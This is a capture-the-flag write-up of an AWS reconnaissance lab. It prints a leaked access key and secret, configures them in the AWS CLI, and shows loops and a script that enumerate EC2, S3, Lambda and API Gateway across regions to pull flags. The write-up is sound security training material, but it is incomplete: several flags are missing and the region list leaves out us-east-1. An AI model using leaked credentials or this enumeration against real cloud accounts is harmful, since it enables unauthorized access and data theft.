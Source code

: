 # AWS system recon report

https://attackdefense.com/challengedetails?cid=2074

In this CTF a recon was done on a AWS system where a read-only user's AWS credentials were leaked. Nothing was specified except that the user was using the services EC2, DyanmoDB, Lambda, API Gateway, S3, and Cloudwatch and 7 flags were to be found.

```
Access Key ID: AKIAUAWOPGE5OQVLUEIX
Secret Access Key: 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
```

To use these credentials AWS CLI was configured like this:

```
$ cat ~/.aws/credentials
[default]
aws_access_key_id = AKIAUAWOPGE5OQVLUEIX
aws_secret_access_key = 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

$ cat ~/.aws/config
[default]
output = yaml
```

Other dependencies:

* [yq](https://mikefarah.gitbook.io/yq/)

## Regions

Most AWS services run in a specific a specific region. So while searching for deployed services all regions must be checked. The file `regions.txt` was created which contains all regions:

```
$ cat regions.txt
af-south-1
ap-east-1
ap-south-1
ap-northeast-3
ap-northeast-2
ap-southeast-1
ap-southeast-2
ap-northeast-1
ca-central-1
cn-north-1
cn-northwest-1
eu-central-1
eu-west-1
eu-west-2
eu-south-1
eu-west-3
eu-north-1
me-south-1
sa-east-1
us-gov-east-1
us-gov-west-1
```

## EC2

EC2 instances were searched like this:

```
for region in $(cat regions.txt); do echo $region; aws --region=$region --no-cli-pager ec2 describe-instances; done
e
```

This revealed two EC2 instances in regions eu-west-2 and ap-southeast-2. The instance in ap-southeast-2 had FLAG1 in its tag:

```
$ aws --region=ap-southeast-2 ec2 describe-instances | yq r - 'Reservations[*].Instances[*].Tags'
- Key: FLAG1
  Value: 0cd68e3e7763d993307b65ea0facf740
```

## S3

Fetch a list of S3 buckets:

```
$ aws s3api list-buckets | yq r - 'Buckets[*].Name'
data-extractor-repo
developers-secret-bucket
temporary-public-image-store
users-personal-files
```

An object of interest `dave-shared-bucket/flag.txt` can be found by listing `developers-secret-bucket`:

```
$ aws s3api list-objects --bucket=developers-secret-bucket
Contents:
- ETag: '"d41d8cd98f00b204e9800998ecf8427e"'
  Key: dave-shared-bucket/
  LastModified: '2020-10-29T11:49:23+00:00'
  Owner:
    ID: 7153c083c4d4c8b9bea0cdd3c5ec7d8ec99ba029736225369fa61ae449322da5
  Size: 0
  StorageClass: STANDARD
- ETag: '"fef650ed3acf9bef8f3cec95832314c7"'
  Key: dave-shared-bucket/flag.txt
  LastModified: '2020-10-29T22:50:01+00:00'
  Owner:
    ID: 7153c083c4d4c8b9bea0cdd3c5ec7d8ec99ba029736225369fa61ae449322da5
  Size: 39
  StorageClass: STANDARD
```

Fetching and reading the object reveals FLAG2:

```
$ aws s3api get-object --bucket=developers-secret-bucket --key=dave-shared-bucket/flag.txt flag.txt
AcceptRanges: bytes
ContentLength: 39
ContentType: text/plain
ETag: '"fef650ed3acf9bef8f3cec95832314c7"'
LastModified: '2020-10-29T22:50:01+00:00'
Metadata: {}
$ cat flag.txt
FLAG2: 305f19a9072a580f2de275c57e5c16c0
```

## Lambda

To find lambda functions the following script was used:

```python
import subprocess
from pathlib import Path

regions = list(
    filter(None, Path("all_aws_regions.txt").read_text().split("\n"))
)

for region in regions:
    operations = [
        # "list-aliases",
        "list-event-source-mappings",
        "list-functions",
        # "list-layer-versions",
        "list-layers",
        # "list-provisioned-concurrency-configs",
        # "list-tags",
        # "list-versions-by-function",
    ]
    for operation in operations:
        print(region)
        command = f"aws --region={region} --no-cli-pager lambda {operation}"
        print(f"$ {command}")
        subprocess.run(command, shell=True, check=False)
```

This revealed a function in region ap-southeast-1. The src code for the function was downloaded.

Calls to the lambda function have to go through API Gateway (see policy).


## API Gateway

Through the lambda function policy we khnow there is an API gateway in ap-southeast-1 so we find the rest-api like this:

```
aws --region=ap-southeast-1 apigateway get-rest-apis
```

These URLS serve the function:

* https://cwlw44ht84.execute-api.ap-southeast-1.amazonaws.com/Prod
* https://cwlw44ht84.execute-api.ap-southeast-1.amazonaws.com/Stage

## DynamoDB

FLAG7 is in dynamodb:us-east-1:tables:CardDetails:items
